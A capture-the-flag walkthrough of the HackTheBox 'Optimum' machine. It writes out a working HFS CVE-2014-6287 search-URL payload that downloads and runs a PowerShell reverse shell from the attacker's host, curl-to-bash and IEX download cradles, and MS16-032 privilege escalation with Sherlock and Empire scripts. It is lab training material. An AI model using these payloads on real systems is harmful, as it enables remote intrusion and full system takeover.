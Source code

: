 ```yaml
---
title: HackTheBox - Optimum (ft. PowerShell)
category: infosec
date: 2018-09-19
thumbnail: optimum-thumb.png
tags: htb,powershell,htbwalkthrough
description:
---
```


Optimum was a fun box with which while the write-up says to use Metasploit, can be done almost entirely with PowerShell. This makes it good practice for someone like me who has never used PowerShell to learn some basic things.

![image-alternative](/website/article/static/img/optimum-nmap.png)

Our initial nmap scans only show one port open running HttpFileServer (HFS) version 2.3, which is vulnerable to [CVE-2014-6287](https://www.cvedetails.com/cve/CVE-2014-6287/). From the description it *"allows remote attackers to execute arbitrary programs via a %00 sequence in a search action."* Basically this just allows us to execute HFS template macros by just sending a null byte (%00) to the search item. Metasploit has the module **exploit/windows/http/rejetto_hfs_exec** to exploit this vulnerability and get a meterpreter shell, but to get a reverse shell in PowerShell, we are going to do it manually.

Using [this reference guide](http://www.rejetto.com/wiki/index.php?title=HFS:_scripting_commands), we can see that the command we want is `{.exec | A.}`, where `A` is the file to run. In order to get a reverse shell, our script will want to look something like: `{exec | powershell.exe ReverseShell.ps1}`, which will run the "ReverseShell.ps1" script in PowerShell. The reverse shell script we will be using comes from [Nishang](https://github.com/samratashok/nishang), which is a collection of PowerShell scripts used for pen testing. Specifically we want to use [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Download it and add this line to the bottom of the file to make the `Invoke-PowerShellTcp` function run when the script is executed without any arguments:

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4444

Our IP address is `10.10.14.3` and we want to listen on port `4444`. In order to get this script into the target machine, we will setup our own HTTP server from where the file can be downloaded from. This can be done using a basic Python module form the command line:

    # Make sure you are in the same directory as the reverse shell script
    $ python -m SimpleHTTPServer # for Python 2
    $ python -m http.server # for Python 3

This will setup a HTTP server which we can access from our IP address `(10.10.14.3)` on port `8000` (by default). Okay, so now we need a way to cause our target machine to download and run this script. On a Linux box with Bash this would be a simple:

    curl http://10.10.14.3:8000/ReverseShell.sh | bash

But on PowerShell it looks a bit different:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')

Because this isn't intended to be a tutorial on PowerShell (I intend to do that later), for now I'll just say that this command is almost identical in what it does to the curl command above. That is - it downloads the reverse shell script and then runs it.

Now is finally time to do the exploit. We will open up netcat as our listener on port 4444 with "nc -lvnp 4444" and paste this into the search URL:

    /?search=%00{.exec|C%3a\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+System.Net.WebClient).DownloadString('http%3a//10.10.14.4%3a8000/Invoke-PowerShellTcp.ps1').}  Without URL encoding it should look like this:

    /?search=%00{.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object+System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp.ps1').}

You can see at the start we use the null terminator (%00) then execute our command from `powershell.exe` located in `C:\Windows\SysNative\WindowsPowershell\v1.0\` which is the 64bit version of PowerShell.

![image-alternative](/website/article/static/img/optimum-ncat.png)

We can now get `user.txt` from the current directory.

Normally to get root with Metasploit you could use **local\_exploit\_suggester**. But we will use [Sherlock](https://github.com/rasta-mouse/Sherlock), which is a script to find missing software patches for privesc. Download it and add this line to the bottom of the script:

    Find-AllVulns

Now we will invoke it from our shell with:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Sherlock.ps1')

This will go through every vulnerability, but the one we are interested in is this (MS16-032):

![image-alternative](/website/article/static/img/optimum-sherlock.png)

`MS16-032` is a vulnerability could allow elevation of privilege if the Windows Secondary Logon Service fails to properly manage request handles in memory.

In order to exploit this vulnerability we will use [this script](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) form the Empire exploitation framework for PowerShell. As usual add this line at the bottom to run the function when it is downloaded.

    Invoke-MS16032 -Command "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.4:8000/Invoke-PowerShellTcp-MS16032.ps1')"

As you can see we are creating another reverse shell, but because of the `MS16-032` exploit, we will run it as root. Also note that you can't use the same port that your current shell is using, so you will have to create another script and netcat instance with a different port. I will be using port `4448`.

Now we run the command from our shell to get the script:

    IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-MS16032.ps1')

![image-alternative](/website/article/static/img/optimum-root.png)

And now we are root. The flag is in `C:\Users\Administrator\Desktop\root.txt`.
